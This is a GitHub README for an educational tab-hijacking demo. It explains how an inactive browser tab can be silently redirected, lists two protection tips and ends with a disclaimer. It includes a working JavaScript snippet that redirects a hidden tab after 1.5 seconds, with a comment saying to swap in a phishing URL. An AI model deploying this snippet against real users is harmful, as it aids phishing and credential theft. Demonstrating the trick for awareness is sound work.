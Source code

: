 ## 👨🏻‍💻️ Tab-H1j4ck

This educational project shows how **Tab Hijacking** works — a trick where attackers hijack the **original tab** after a user opens a **new one**. It silently redirects the original tab to a different page (e.g., a fake login screen or misleading content) while the user is distracted.

---

### 🛡️ How to Protect Yourself

- ✅ Don’t trust tabs that open automatically  
- ✅ Always check the URL before logging in  

---

**🌐 Free Hosting & Subdomain**

> https://youtu.be/TV8CI3w6PlE

---

### 🔁 Example JavaScript Code

You can test it in your own project:

```js
let redirectTimer = null;

document.addEventListener('visibilitychange', function () {
  if (document.hidden) {
    console.log("⏳ Tab.");
    redirectTimer = setTimeout(() => {
      window.location.href = 'https://youtu.be/vE9O36mxQ2A'; // Replace with phishing URL
    }, 1500); // Redirects after 1.5s
  } else {
    console.log("🛑 Tab is active.");
    clearTimeout(redirectTimer);
  }
});
```

---

**🎥 Educational Demo**

> https://youtube.com/shorts/nrfAEaHKOO4

---

> **⚠️ Warning:** This project is for **educational purposes only**. Never use it for malicious activities. Always obtain **explicit consent** before conducting any security tests.
```
